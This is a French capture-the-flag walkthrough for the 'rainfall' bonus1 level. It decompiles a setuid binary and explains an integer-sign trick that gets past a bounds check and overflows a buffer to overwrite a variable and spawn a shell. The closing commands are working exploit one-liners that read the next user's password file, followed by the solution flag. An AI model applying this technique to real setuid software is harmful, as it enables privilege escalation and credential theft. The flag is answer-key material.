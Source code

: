 # rainfall : [bonus1]

Observations:
---

#### Source décompilée:
```c
int main(int argc, const char **argv, const char **envp)
{
  char dest[40];
  int v5; 

  v5 = atoi(argv[1]);
  if ( v5 > 9 )
    return 1;
  memcpy(dest, argv[2], 4 * v5);
  if ( v5 == 1464814662 )
    execl("/bin/sh", "sh", 0);
  return 0;
}
```

#### Entrées du programme:
| Nom | Description |
| --- | ----------- |
| `argv[1]` | Une chaîne de caractères |
| `argv[2]` | Une chaîne de caractères |

#### Détails du programme:
```bash
-rwsr-s---+ 1 bonus2 users 5043 Mar  6  2016 bonus1
```

#### Fonction:
| Nom | Description |
| --- | ----------- |
| `<main>` | Cette fonction convertis `argv[1]` en entier dans la variable `v5` puis sort de la fonction `<main>` en retournant **1** si `v5` est plus grand que **9**. <br> Elle copie ensuite `(4 * v5)` octets de `argv[2]` dans `dest` qui est un tableau de **40** octets. <br> Pour finir elle compare la valeur de `v5` à la valeur **1464814662**, si la comparaison est correcte la fonction execute `/bin/sh`. |

#### Conclusions:
La première condition est supposée nous empécher de créer un dépassement de mémoire mais nous pouvons outrepasser cela. \
En effet le résultat de `<atoi>` est un entier mais `<memcpy>` prend en paramètre un entier multiplié par **4** qui de plus est convertis en entier non signé. \
Nous pouvons donc trouver une valeur négative qui une fois convertie et multipliée dépassera la limite de **9** . \
Nous permettant ainsi de changer l'ordre d'exécution en écrasant la valeur de `v5`.

----
Résolution:
----
Pour trouver une valeur de `v5` qui une fois multipliée par **4** déborde suffisament pour tomber sur le nombre 44. \
Nous devons viser la valeur **11**, mais nous devons aussi entrer un chiffre négatif pour pouvoir passer la première condition. \
Multiplier par **4** reviens a déplacer un nombre de **2** bits vers la gauche. \
Nous pouvons donc écrire le nombre **11** en binaire et mettre le bit le plus grand a **1** pour le transformer en nombre négatif. \
À vrai dire nous pouvons deplus ajouter le bit juste en dessous à **1** vu que la multiplications par **4** reviens à enlever les **2** bits de gauche.\
Les solutions ce trouvant êtres **-1073741813** ou **-2147483637** :
| décimal | binaire |
| ------: | ------: |
|	      11	| 00000000000000000000000000001011
|-2147483637	| 10000000000000000000000000001011
|-1073741813	| 11000000000000000000000000001011

Il ne me reste plus qu'a remplir le buffer de **40** octets aléatoires puis de la valeur de `v5` voulue en hexadécimal et little endiane, \
pour écraser la valeur de `v5` avec mon dépassement de tableau puis de rajouter la commande pour afficher la clef de l'utilisateur supérieur.

#### Commandes:
```bash
./bonus1 -2147483637 $(python -c "print('a'*40 +'\x57\x4f\x4c\x46'[::-1])") <<<'cat /home/user/bonus2/.pass'
```
```bash
./bonus1 -1073741813 $(python -c "print('a'*40 +'\x57\x4f\x4c\x46'[::-1])") <<<'cat /home/user/bonus2/.pass'
```

**Flag :** 579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
